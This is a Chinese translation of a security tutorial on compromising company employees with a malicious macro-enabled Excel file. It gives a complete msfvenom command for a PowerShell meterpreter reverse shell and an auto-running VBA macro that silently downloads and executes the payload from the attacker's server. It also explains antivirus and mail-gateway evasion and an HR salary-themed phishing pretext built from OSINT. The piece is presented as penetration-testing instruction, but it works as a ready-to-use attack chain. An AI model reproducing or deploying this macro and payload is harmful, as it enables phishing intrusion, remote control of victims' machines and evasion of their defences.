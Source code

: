 
# 【技术分享】社会工程学攻击之看我如何用office文档欺骗用户


                                阅读量   
                                **101084**
                            
                        |
                        
                                                                                                                                    ![](./img/85988/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：infosecinstitute.com
                                <br>原文地址：[http://resources.infosecinstitute.com/social-engineering-compromising-users-using-office-document/](http://resources.infosecinstitute.com/social-engineering-compromising-users-using-office-document/)

译文仅供参考，具体内容表达以及含义原文为准

[![](./img/85988/t016be8b69418d78b15.jpg)](./img/85988/t016be8b69418d78b15.jpg)



翻译：[**村雨其实没有雨**](http://bobao.360.cn/member/contribute?uid=2671379114)

预估稿费：160RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿



**前言**

最近的趋势表明，社会工程学才是黑客们最普遍采用的攻击社会组织的手段，其中也不乏一些大公司被社会工程学手段入侵的案例。雇员们很容易被攻击者诱导着点击某些链接，打开某些看起来非常诱人的office文档，最终才发现其实是恶意程序。大家都知道，绕过反病毒软件的防护其实轻而易举。

在本文中，我们将会了解到如何创建一个能够绕过反病毒软件特征码检测和启发式检测的office恶意文档，最终通过打开该文档我们能够获得一个meterpreter反向连接的shell。

在我介绍如何绕过反病毒软件之前，我们需要来先了解一下反病毒软件是如何运作的。在高等级的防护下，反病毒软件主要采用两种手段来检测恶意程序：

**1. 基于签名和特征的检测。这种手段只能检测保存在硬盘上的恶意程序。反病毒软件会读取文件，并将其特征码与病毒库进行比对。反病毒软件会自带一个很大的病毒库，其中包括了许多已知的病毒特征，反病毒程序会分析文件是否和其中的特征相匹配。这种方法相对较快，并且耗费的运算资源较少。**

**2. 基于启发式的检测。这种检测方法通常也会与基于特征码的检测方法相结合。反病毒软件会检测待检测程序的行为，来判断它是否在执行恶意活动。这种方法通常是通过将程序置于沙箱观察一段时间实现的，例如它会检测是否会以特定的方式写入内存，或者是否会立即打开一个通道对外建立连接。这种方法的优点是能够检测出未知的恶意程序，但是这是以性能为代价的，因此，在实施启发性分析的时候，厂商必须要在安全性和可用性之间做出妥协。******

反病毒软件并不善于检测内存中运行的程序，因此我们的目标就是把恶意程序在内存中运行。

<br>

**攻击场景**

这种攻击手段的应用场景应该是在我们需要对一个公司进行社会工程学评估的时候。攻击的第一步应该是获得目标的最初立足点。通过使用OSINT技术，我们能够获得以下信息：

**1. 目标公司运行赛门铁克反病毒程序**

**2. 该公司提供医疗保险**

**3. 在本月公司员工会获得福利**

OSINT，是指从各种公开的信息资源中寻找和获取有价值的情报。在这种方法的指导下，我们使用了以下手段收集到了信息：

**1. 在LinkedIn了解到公司使用了赛门铁克反病毒程序**

**2. 在Glassdoor了解到公司提供医疗保险以及福利发放时间**

利用已经收集到的信息，我们计划找个借口来冒充HR，因此我们也需要伪造一封他/她的邮件。

我们会使用一个支持宏的Microsoft Excel文档，然后通过宏来下载和执行基于powershell的meterpreter攻击载荷。由于Microsoft进程已经在内存中运行了，它会为攻击载荷分配出一段内存空间而不会写入磁盘。

让我先来简要列出完成目标所需要的步骤：

生成powershell反射攻击载荷(reflection payload)并启动监听程序

打开excel文件并写入宏，用于下载和执行攻击载荷

将文件另存为启用宏的文档

现在让我们详细介绍每一步：

**1.生成powershell反射攻击载荷**

我们选择反射攻击载荷是因为它不会像其他powershell payload一样在目标计算机上产生临时文件。一切都会通过.NET反射加载，所以它不需要产生一个用于动态编译的.cs临时文件。

命令如下

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.1.1.130 LPORT=443 -f psh-reflection &gt; /var/www/html/shellcode.ps1
```

[![](./img/85988/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01c118f94aeeaf98cc.png)

**2.创建恶意文档**

**a.选择"视图" → "查看宏"**

[![](./img/85988/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01dd5235b22eaa3fb7.png)

**b.创建宏 – 输入宏名并创建**

[![](./img/85988/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01369c210f1acba764.png)

**c.删除自动生成的代码并粘贴以下的代码**



```
Sub Execute()
Dim payload
payload = “powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile -c IEX ((New-Object Net.WebClient).DownloadString(‘http://10.1.1.130/shellcode.ps1’));”
Call Shell(payload, vbHide)
End Sub
Sub Auto_Open()
Execute
End Sub
Sub Workbook_Open()
Execute
End Sub
```

(这是使用powershell渗透测试框架nishang生成的代码)

下面我们来简要介绍一下上述代码的作用：

**1. powershell.exe – 用于执行powershell**

**2. WindowStyle hidden – 创建执行命令时不显示窗口的powershell程序**

**3. ExecutionPolicy Bypass – 默认情况下会阻止windows系统中powershell脚本的运行，因此为了执行脚本，我们应该将运行策略设为Bypass**

**4. NoLogo – 在启动时隐藏头部的版权信息**

**5. NoProfile – 不加载Windows PowerShell配置文件**

**6. -c – 简写，等同于Command**

**7. IEX ((New-Object Net.WebClient).DownloadString(‘http://10.1.1.130/shellcode.ps1’) – 从攻击者的服务器上下载shellcode并运行**

**8. Auto_Open() and Workbook_Open() – 在文件打开时立即运行宏**

**然后保存宏即可，我使用的文件名是new_salary_structure_2017**

下面我们要将这个恶意文档通过邮件寄给目标公司。值得一提的是，这种攻击方法同样会绕过大多数电子邮件网关和电子邮件保护机制，因为里面并没有包含恶意代码。

将邮件寄给任何具有公开可用电子邮件服务商的用户是一个良好的测试手段，我们能够用这种方法来检测邮件是否会被标记为恶意。

您可以看到，我们成功的在邮箱收到了带有附件的邮件

[![](./img/85988/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01dff8a19534d0ae10.png)

这封诱人的邮件提到了薪水结构，任何员工最终都会打开excel文档

[![](./img/85988/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01a3d709f15cb66e39.png)

可以看到，在他打开后，我们成功收到了一个meterpreter反向shell，IP是10.1.1.129，从屏幕截图可以看到这台机器正在运行赛门铁克反病毒程序。

现在我们已经在这家公司的网络中找到了一个立足点，我们可以继续实施下一步的攻击。
